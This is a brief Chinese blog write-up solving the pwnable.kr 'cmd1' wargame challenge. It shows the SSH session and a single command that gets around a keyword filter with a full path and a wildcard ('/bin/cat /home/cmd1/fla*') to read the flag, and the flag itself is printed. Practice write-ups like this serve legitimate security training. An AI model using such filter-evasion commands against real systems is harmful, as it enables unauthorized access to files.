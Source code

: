 <!--yml
category: 未分类
date: 2022-04-26 14:29:29
-->

# PWN cmd1 [pwnable.kr]CTF writeup题解系列11_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103798952](https://blog.csdn.net/fastergohome/article/details/103798952)

太简单的一道题目了，直接给题解 

![](img/36d778296b2922a73779b9243e8ba25a.png)

![](img/1e27c26791a50af52b89de99e147518c.png)

```
root@mypwn:/ctf/work/pwnable.kr# ssh cmd1@pwnable.kr -p2222
cmd1@pwnable.kr's password: 
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \ 
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    / 
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \ 
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87@gatech.edu
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Wed Jan  1 20:02:21 2020 from 120.84.12.64
cmd1@prowl:~$ ./cmd1 '/bin/cat /home/cmd1/fla*'
mommy now I get what PATH environment is for :)
cmd1@prowl:~$ 
```